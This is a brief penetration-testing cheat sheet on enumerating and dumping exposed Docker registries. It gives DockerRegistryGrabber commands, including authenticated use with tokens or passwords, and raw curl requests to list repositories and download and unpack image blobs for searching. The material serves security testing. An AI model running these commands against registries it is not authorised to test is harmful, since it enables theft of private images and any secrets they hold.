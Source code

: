 # Exposed Docker Registry Penetration Testing

## Port: 5000 (Usually)

## Tool: https://github.com/Syzik/DockerRegistryGrabber

### Usage:

## TIP: We use -U and -P as well as -A flags to perform authenticated enumeration and dumping

    python3 drg.py http://TARGET.COM --list (List repositories)

    python3 drg.py http://TARGET.COM --dump TARGET_REPOSITORY (Dump this repository)

    python3 drg.py http://TARGET.COM --dump-all (Dump the entire registry)

## Authenticated Usage example:

    python3 drg.py https://TARGET.COM -A 'Auth BEARER TOKEN' --list (Authenticate with an auth token)

    python3 drg.py https://TARGET.COM -U USERNAME -P PASSWORD --list (Authenticate with credentials)

## Alternative tool: cURL

### Usage:

    curl -s http://TARGET.COM:5000/v2/_catalog (List repositories)

    curl -s http://TARGET.COM:5000/v2/ubuntu/tags/list (Get tags of a repository)

    curl -s http://TARGET.COM:5000/v2/ubuntu/manifests/latest (Get manifests)

    curl http://TARGET.COM:5000/v2/ubuntu/blobs/sha256:SHA256_HASH --output blob1.tar (Download one of the previously listed blobs)

    tar -xf blob1.tar (Inspect the insides of each blob)

## OR

    zgrep -la STRING blob1.tar (Use this to search for something specific)
